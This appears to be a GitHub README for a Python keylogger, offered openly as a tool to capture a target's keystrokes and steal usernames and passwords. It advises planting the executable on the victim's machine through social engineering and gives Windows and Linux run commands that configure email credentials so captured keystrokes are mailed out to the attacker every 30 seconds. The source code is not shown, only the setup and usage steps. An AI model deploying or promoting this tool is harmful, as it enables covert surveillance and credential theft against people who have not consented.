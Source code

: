 Keylogger is a tool that helps you when you try to capture your target's keystrokes on his/her keyboard. You can use it as a Username-Password hijacking tool when you upload this program as a executable file (via social engineering) to your target's machine.

USAGE: 
```
1.1-) FOR WINDOWS: Open cmd and write this command -> cd Desktop
1.2-) C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe -m pip install pynput(First part is your python.exe's location change it properly for your       device python.exe location)      
1.3-) After you install pynput library, run the KeyLogger with -> C:\Users\IEUser\Appdata\Local\Programs\Python\Python310\python.exe python3 MyKeyLogger.py -m             (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) After that, keylogger will capture all of the keystrokes on the target machine and will send E-mails that contains keystrokes from the target.   
2.1-) FOR LINUX: Open terminal and write this command -> pip3 install pynput
1.2-) cd /root/PycharmProjects/Keylogger
1.3-) python3 MyKeyLogger.py -m (Keylogger sender E-mail address) -t (Keylogger logs receiver E-mail address) -p (Sender E-mail adress' password)
1.4-) If you have any problem in LINUX do as follows : 
      sudo apt update
      sude apt install python3
      sudo apt-get install python3-dev
      sudo apt install python3-pip 
```
And your program will run without any error.
IMPORTANT NOTE: The first mail on the receiver e-mail will be empty. Ignore it, the second mail will come after 30 seconds and will contain the keylogs of the target machine.
                            
                            
       
